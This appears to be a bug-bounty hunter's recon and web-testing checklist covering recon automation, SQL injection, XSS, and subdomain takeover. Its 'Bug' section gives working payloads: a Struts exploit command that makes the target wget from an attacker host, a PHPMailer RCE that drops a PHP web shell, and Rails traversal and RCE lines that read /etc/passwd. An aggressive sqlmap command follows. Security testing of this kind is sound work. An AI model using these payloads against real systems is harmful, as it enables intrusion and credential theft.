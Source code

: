 #					My Bug-Bounty Recon Process

### Recon Process in two part 

    1-Automation
    2-Manual
    3-After Recon: Exploit

**1- Start Automation in background, while automating time you can manually check all features of web and check every thing, Don't forget to analyse `source code`**

	1 Gather Subdomain
	2 Gather URLs,GF-Pattern
	3 Gather JS File
	4 Gather IP,Port
	5 Google/Github Dorking

### 2- Let's check mannually all vulnerability types.

<details><summary>Bug</summary>
<p>

#### We can hide anything, even code!
	- Blind XSS
		- Blind XSS payload in User-Agent header
		- BXSS Payload while logging (Enter the BXSS Payload in forgot pass, login, singup to generate errors)
		- Use BXSS Pyload as your password
	- Add Header in the Match an Replace Proxy- Add X-Forwarded-Host: evil.com - browse the program and then click burp search and try to find your X-Forwarded-Host: Value for web chache deception,poisoning.

	- HTTP Request Sumggling > Ihave give this ariticle and tool in my telegram.
	- Apply on .html to xhtml
	- python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit
	- Test For Electronic code book (AAAAAAA aaaaaa BBBBBB)
	- CVE-2016-10033: PHPMailer RCE
		- email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"127.0.0.1
		- subject: <?php system($_GET['cmd']);?>

	- Change all the request to TRACE method to disclose or access info.
	- Check For broken link - tool: blc https://comany.com -ro 

	- companyname.atlassian.net
	- jira.companyname.com
	- VHOST Testing
	- Test For buckets
	- Check Github & dork list
		(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,bucket,GITHUB_TOKEN)
	- gau or gauplus site.com
	- waybackurl site.com
	- Accessing misconfigured data of an org: https://storage.googleapis.com/<org-name>
	- Unautorized access to org's google groups: https://groups.google.com/a/<org-name>
	- if running ruby on rails then: Accept: ../../../../../../../../../etc/passwd{{
	- CVE-2013-0156: Rails Object injection: ruby rails_rce.rb http://site.com 'cp /etc/passwd public/file.txt'
		(raw- https://gist.github.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
		(https://gist.github.com/postmodern/4499206)
	- CVE-2013-0156 Hint: PHP based website on NGINX phpip-fpizdam http://site.com/anyphpfile.php
	- Check FOr crlf injection
	- Bypass Open redirection protection
	- keyfinder
	- Google Dork
	> check email verfication admin@site.com
	> site.com/home/....4....json [will disclose all the content of the home dir | sensitive info]
	- CVE-2019-19781 Ciritix NetScaler Directory Traversal: curl -vk -path-as-is https://$target/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "Vulnerable $Target" || echo "MITIGATED: $TARGET"



</p>
</details>

## Specific Buf List:
	
- [ ] Authentication
- [ ] OAuth authentication
- [ ] SQL injection

<details><summary>SQL injection check list:</summary>
<p>

- Use GF to grep all possible sqli parameter
- Use SQLi [Destector](https://github.com/eslam3kl/SQLiDetector?s=09)
- Use User-Agent fuzzer for [sqli](https://github.com/root-tanishq/userefuzz)
- Use Error base sqli template nuclei.
- Blind SQLi and Time Base SQLi [too](https://github.com/JohnTroony/Blisqy?s=09)

### Find SQL injection with ffuf:
  Wayback and grep all php files,
  ```waybackurls https://redacted.org/ | uro | grep “.php” > php-files.txt```
  OK let’s do some bash to grep the names after get to make a list of parameters to brute force in the endpoints.
 
**Getting Parameters**
 ```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | sort -u```
remove the .php string to make a list - ```cut -f1 -d”.”```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sort -u```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tee uppercase-param.txt```
```$ cat php-files.txt| grep -i get | sed 's/.*.get//' | cut -f1 -d”.” | sed 's/[A-Z]\+/\n&/g' | sort -u | tr '[:upper:]' '[:lower:]' > lowercase-param.txt

so now we have two lists of parameters let’s test it with FFUF, firstly I’ll grep endpoint and test all params with it, I’ll try the lowercase-parameters first with this command:
```ffuf -w lowercase-parameters.txt -u "https://redacted.org/searchProgressCommitment.php?FUZZ=5"```
If you don't get anything: Try with POST request
```ffuf -w lowercase-parameters.txt -X POST -d "FUZZ=5" -u "https://redacted.org/searchProgressCommitment.php"```
Ok now go to the endpoint and intercept the request with burp and change the request method, add the parameter, and copy it to a txt file to run sqlmap on it.

SQL:Command:
```sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast```
	
</p>
</details>

- [ ] XSS
<details><summary>XSS Check list and TIPs</summary>
<p>
	
  -  Stored XSS	
  -  Reflect XSS 	
  -  DOM XSS 	
  -  Blind XSS 	
  -  Header injection 	
  -  XSS in cookie body, Local Storage	
  -  Proto type pollution 	
  -  HTMLi
	
### XSS hunting with ffuf
```ffuf -w /usr/share/wordlists/dirb/big.txt -u https://rob-sec-1.com/FUZZ -o Ffuf/Recruitment.csv -X HEAD -of csv```
	
What this tool will do is try to enumerate different directories within the application,replacing FUZZ with items from the big.txt list of words. If we sneak peek a sample of this file:
	
Running the above generated the following CSV that we can read from the Linux terminal using the ```column``` command:
```column -s, -t Ffuf/Recruitment.csv```

[Refrence](https://markitzeroday.com/xss/hidden/reflected/content-discovery/bug-bounty/2020/03/03/xss-hunting.html)

</p>
</details>

- [ ] CSRF
- [ ] IDOR
- [ ] Clickjacking
- [ ] DOM-based
- [ ] vCORS
- [ ] XXE
- [ ] SSRF

       - Try SSRF in Referer header : Shellshock Exploitation 
       - Test with match and replace in burp 
       - Read SSRF Checklist 
- [ ] Request smuggling
- [ ] Command injection
- [ ] Server-side template injection
       - [Try This Tool](https://github.com/faiyazahmad07/SSTI_DETECTOR)
       
- [ ] Insecure deserialization
- [ ] Directory traversal
- [ ] Access control
- [ ] Business logic vulnerabilities
- [ ] Web cache poisoning
- [ ] HTTP Host header attacks
- [ ] WebSockets
- [ ] Information disclosure
- [ ] File upload vulnerabilities
- [ ] JWT attacks





### Subdomain Takeover: 
- *Try a tool name subzy*
- *Try this subjack*
	subjack -w subdomain.txt -t 20 -timeout 30 -o subjack1.txt -ssl -a -c "/root/fingerprints.json"
	subzy -targets host.txt --hide_fails --concurrency 100
	
- Try [DNS-Reaper](https://www.kitploit.com/2022/08/dnsreaper-subdomain-takeover-tool-for.html?m=1) 
